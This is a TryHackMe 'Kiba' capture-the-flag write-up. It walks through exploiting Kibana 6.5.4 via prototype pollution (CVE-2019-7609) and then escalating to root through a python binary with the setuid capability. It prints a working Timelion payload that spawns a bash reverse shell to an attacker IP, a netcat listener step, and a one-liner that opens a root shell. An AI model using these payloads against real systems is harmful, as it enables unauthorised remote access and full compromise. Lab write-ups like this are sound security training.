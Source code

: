 # Kiba Writeup (Tryhackme) by [yag1n3](https://www.github.com/yaguine)

---

## Machine Info

### Room Labels
* RCE
* Elastic
* Python
* Linux Capabilities

### Room Objetives
* What is the vulnerability that is specific to programming languages with prototype-based inheritance? 
* What is the version of visualization dashboard installed in the server?
* What is the CVE number for this vulnerability?
* Compromise the machine and locate user.txt
* How would you recursively list all of these capabilities?
* Escalate privileges and obtain root.txt

---

## User.txt

### What is the vulnerability that is specific to programming languages with prototype-based inheritance?  

you can answer this question before starting the machine  

**Answer** : Prototype Pollution  

### nmap

![](./images/image1.png)  

### port 80

looks like they're trolling with this one  

![](./images/image2.png)  

### port 5601

you navigate to this port with the web browser, and you are redirected to */app/kibana*  
now you have the dashboard of a software called **Kibana**  

### What is the version of visualization dashboard installed in the server?

after googling a little bit, we discover we can check the version going to the **Dev Tools** tab  
now we insert the command "GET /" and click the Run button, now we see some information

![](./images/image3.png)  

**Answer** : 6.5.4  

### What is the CVE number for this vulnerability?

we google Prototype Pollution Vulnerabilities for Kibana, and we find one that affects versions from 6.0.0 up to 6.6.1  

**Answer** : CVE-2019-7609

### Compromise the machine and locate user.txt

there are a couple of ways to exploit the vulnerabilitie, but this is the one i chose  
1. go to the **Timelion** tab
1. enter the following command, but introducing your IP and port (yes, there is a line break)  
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/<YOUR_IP>/<YOUR_PORT> 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
1. start a netcat listener on the selected port
1. click the "run" button 
1. enter the **Canvas** tab
1. the reverse shell should pop-up !!!

we are able to access **user.txt** on our user directory

---

## Root.txt

### How would you recursively list all of these capabilities?

this is basic PE enumeration

**Answer** : getcap -r /

### Obtain root.txt

really really easy  
with the prior command we check that there is a binary of python in our home directory with the **setuid** capabilitie set  
we spawn a root shell with `/home/kiba/.hackmeplease/python3 -c "import os;os.setuid(0);os.system('/bin/bash')"`

Congrats you own the machine !
